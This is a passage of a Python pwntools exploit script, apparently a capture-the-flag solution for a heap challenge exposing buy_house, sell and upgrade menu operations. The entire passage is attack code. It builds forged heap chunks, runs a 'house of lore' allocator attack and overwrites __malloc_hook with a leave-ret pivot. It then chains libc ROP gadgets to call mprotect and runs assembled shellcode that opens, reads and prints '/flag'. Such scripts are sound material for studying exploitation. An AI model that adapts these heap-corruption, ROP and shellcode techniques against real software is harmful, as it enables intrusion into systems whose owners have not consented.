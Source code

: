 ```
              p64(0) + p64(0xa1) + p64(libc_base + 0x1e4d40 - 0x10) + p64(heap_base + 0x1d60) + "\x44" * 0x80 +
              p64(0) + p64(0x21) + "\x55" * 0x10 +
              p64(0) + p64(0xa1 - 0x20) + "\x00" * (0x90 - 0x20) +
              p64(0) + p64(0xa1) + p64(heap_base + 0x1c20) + p64(libc_base + 0x1e4d40 - 0x10) + "\x66" * 0x80 +
              p64(0) + p64(0x31) + p64(heap_base + 0x40) * 4 +
              p64(0) + p64(0xa1 - 0x30) + "\x00" * (0x90 - 0x30) )

    #prepare for house of lore
    sell(2)
    sell(7)
    sell(1)

    buy_house(1, 0xb0, "\x11" * 0xb0)
    buy_house(2, 0x90, "\x22" * 0x90)
    buy_house(6, 0x217, "\x66" * 0x90)
    buy_house(4, 0x217, "\x44" * 0x90)
    sell(6)
    #set bitmap to 0x100
    buy_house(6, 0x3a0, p64(heap_base + 0x40) * (0x3a0 / 8))
    sell(6)
    pause()
    #house of lore
    upgrade(1, "\x22" * 0xb0 + p64(0) + p64(0xa1) + p64(libc_base + 0x1e4d30) + p64(heap_base + 0x40))

    libc.address = libc_base
    malloc_hook = libc.symbols["__malloc_hook"]
    mprotect = libc.symbols["mprotect"]
    leave_ret = libc_base + 0x0000000000058373
    pop_rdi_ret = libc_base + 0x0000000000026542
    pop_rsi_ret = libc_base + 0x0000000000026f9e
    pop_rdx_ret = libc_base + 0x000000000012bda6
    call_rdx = libc_base + 0x0000000000143650
    ROP_CHAIN = p64(pop_rdi_ret) + p64(heap_base) + \
                p64(pop_rsi_ret) + p64(0x4000) + \
                p64(pop_rdx_ret) + p64(7) + p64(mprotect) + \
                p64(pop_rdx_ret) + p64(heap_base + 0x1780) + p64(call_rdx)

    ROP_CHAIN = ROP_CHAIN.ljust(0x1700 - 0x16a0, "\x90")

    ROP_CHAIN += "/flag\0"

    ROP_CHAIN = ROP_CHAIN.ljust(0x1780 - 0x16a0, "\x90")

    buffer_addr = heap_base + 0x1700
    heap_addr = heap_base + 0x2000

    code = asm(pwnlib.shellcraft.amd64.linux.open(buffer_addr, 0, 2).replace("push SYS_open", "push 2"))
    code += asm(pwnlib.shellcraft.amd64.linux.syscall('SYS_read', 'rax', heap_addr, 0x100))
    code += asm(pwnlib.shellcraft.amd64.linux.syscall('SYS_write', 1 , heap_addr, 0x100).replace("push SYS_write", "push 1"))
    code += asm(pwnlib.shellcraft.amd64.linux.syscall('SYS_exit', 0))

    ROP_CHAIN += code

    buy_house(6, 0x217, ROP_CHAIN)
    buy_house(7, 0x217, p64(malloc_hook) * 0x40)
    buy_super(p64(leave_ret) * 2)
    sell(1)
    buy_house(1, heap_base + 0x16a0 - 8, ROP_CHAIN, logging = True)
```
